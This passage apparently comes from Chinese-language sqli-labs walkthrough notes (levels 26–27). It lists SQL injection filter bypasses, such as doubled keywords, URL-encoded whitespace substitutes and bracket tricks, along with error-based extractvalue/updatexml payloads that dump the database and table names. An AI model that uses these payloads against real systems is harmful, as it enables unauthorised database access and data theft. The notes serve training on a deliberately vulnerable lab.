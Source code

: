 aandnd

&& ||

%26%26

id=1' || extractvalue(1,concat(0x7e,(select database()),0x7e))--+
```



```
id=1' || extractvalue(1,concat(0x7e,select(database()),0x7e)) 
```



### less26

屏蔽了空格

空格替代品：

`%09` 水平tab键

`%0a` 新建一行

`%0c` 新建一页

`%0d` return功能

`%0b` 垂直tab键

`%a0` 空格键

或者不要空格，用括号



屏蔽`or` `and` `空格` `\ --+ # /**/`

`?id=1' oorrder by 3 %26%26 '1`



```
id=1%27||(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))||1=%27
```







## 12 union、select屏蔽

### less27

测试：

屏蔽了空格、负号、union、select

可以使用大小写、空格变换写法绕过

```